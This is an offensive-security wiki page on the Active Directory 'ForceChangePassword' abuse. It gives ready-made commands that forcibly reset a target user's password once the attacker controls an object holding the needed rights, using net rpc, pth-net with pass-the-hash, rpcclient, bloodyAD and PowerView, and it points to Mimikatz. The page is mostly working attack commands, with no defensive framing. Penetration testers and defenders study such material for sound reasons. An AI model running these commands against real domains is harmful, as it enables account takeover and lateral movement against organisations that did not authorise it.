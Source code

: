 # ForceChangePassword

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.

{% tabs %}
{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](broken-reference).

```bash
# With net and cleartext credentials (will be prompted)
net rpc password $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc password $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc password $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```

The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set password $TargetUser $NewPassword
```
{% endtab %}

{% tab title="Windows" %}
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
```

Mimikatz's [`lsadump::setntlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/setntlm) can also be used for that purpose.
{% endtab %}

{% endtabs %}
